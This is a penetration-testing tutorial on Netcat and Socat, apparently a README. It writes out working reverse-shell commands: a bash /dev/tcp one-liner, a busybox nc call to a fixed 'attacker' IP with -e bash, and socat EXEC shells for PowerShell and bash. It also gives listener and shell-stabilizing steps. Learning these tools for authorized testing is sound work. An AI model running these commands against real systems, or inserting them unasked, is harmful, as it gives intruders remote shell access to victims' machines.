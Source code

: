 # Netcat and Socat - A Comprehensive Guide

Netcat and Socat are powerful tools commonly used for network communication, particularly in penetration testing and security assessments. Both tools can facilitate remote access, reverse shells, and port listening. This guide provides an in-depth overview of their usage and syntax.

---
## Quick Reference
On one side, you can listen to a specific port, such as:
```
nc -lnvp 1234
```

On the client-side, you can connect to this port with:
```
bash -i >& /dev/tcp/LISTENING_IP/PORT 0>&1
```

To make the shell interactive, so you can switch users, we need to stabilize it with:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
## Netcat

**Netcat** (often abbreviated as `nc`) is a versatile networking tool that can establish connections between machines, listen on ports, and even transfer data. It is often referred to as the "Swiss Army knife" of networking tools.

### Key Netcat Options

- **`-l`**: Listen mode. This instructs Netcat to listen on a specified port for incoming connections.
- **`-p`**: Specify the port number on which to listen or connect.
- **`-n`**: Numeric-only mode. Disables DNS resolution for hostnames and uses IP addresses directly.
- **`-vV`**: Verbose output, providing useful information such as connection attempts and errors.
- **`-vv`**: Very verbose mode, offering even more detailed debugging information.
- **`-k`**: Keep listening after a client disconnects. Useful for long-running services or repeated connections.

### Listening for Connections (Server Side)

To listen on a specific port (e.g., port 1234), you can run the following command:
```
nc -lnvp 1234
```

- **`-l`**: Listen mode.
- **`-n`**: Skip DNS resolution.
- **`-v`**: Verbose output, helpful for debugging.
- **`-p`**: Specify the port number (`1234`).

### Connecting to a Listener (Client Side)

On the client side, use the following command to connect to the server's IP address and port:
```
nc MACHINE_IP 1234
```

- Replace `MACHINE_IP` with the actual IP address of the server you're connecting to.
- Replace `1234` with the port you are listening on.

### Making a Stable, Interactive Shell

When using Netcat for a reverse shell or remote access, the shell might not be interactive or fully functional. To stabilize it and gain more control (e.g., to switch users), you can use Python to spawn a stable Bash shell:
```
python -c 'import pty; pty.spawn("/bin/bash")
```

### Alternative Method for Stabilizing the Shell

If you're unable to use Python, you can establish a stable shell using the following commands:

1. **On the attacker machine**: Set up a listener on port 4444:

    ```
    nc -lnvp 4444
    ```

2. **On the victim machine**: Connect back to the attacker's IP and port, using `busybox` to invoke a reverse shell:

    ```
    busybox nc 10.21.156.95 4444 -e bash
    ```

3. **To stabilize the shell on the listener side**: Run the following command in the listener:

    ```
    script -qc /bin/bash /dev/null
    ```

4. **Set terminal type** (optional but recommended):

    ```
    export TERM=xterm
    ```

This will provide you with a stable and fully interactive shell session.

---

## Socat

**Socat** (SOcket CAT) is an advanced alternative to Netcat, with more features and greater flexibility. It supports various types of network connections, including TCP, UDP, and Unix domain sockets. Socat is especially useful for handling more complex scenarios.

### Basic Socat Reverse Shell Listener

To create a basic reverse shell listener using Socat, use the following syntax:
```
socat TCP-L:<port> -
```

- **`TCP-L:<port>`**: Listen on the specified TCP port.
- **`-`**: Standard input/output.

This command will allow you to listen on a port for incoming connections and forward data to and from the terminal.

### Victim Machine - Connecting Back to the Listener

#### Windows (Reverse Shell with PowerShell)

On a Windows machine, use the following command to connect back to the attacker’s listener:
```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

- **`TCP:<LOCAL-IP>:<LOCAL-PORT>`**: Specifies the local IP address and port of the listener.
- **`EXEC:powershell.exe,pipes`**: Executes a PowerShell shell using Socat.

#### Linux (Reverse Shell with Bash)

On a Linux machine, use the following command to connect back to the listener:
```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

- **`TCP:<LOCAL-IP>:<LOCAL-PORT>`**: Specifies the local IP address and port of the listener.
- **`EXEC:"bash -li"`**: Executes a Bash shell in interactive mode.

### Conclusion

Both **Netcat** and **Socat** are indispensable tools for penetration testers, security professionals, and anyone involved in network security assessments. While Netcat is a more lightweight and straightforward tool, Socat offers more advanced capabilities, such as the ability to work with multiple protocols and complex use cases. Depending on the situation and the level of control needed, both tools can be used to facilitate remote access, file transfers, and vulnerability exploitation.

By mastering these tools, you can efficiently manage network connections, reverse shells, and other essential tasks in penetration testing and ethical hacking.
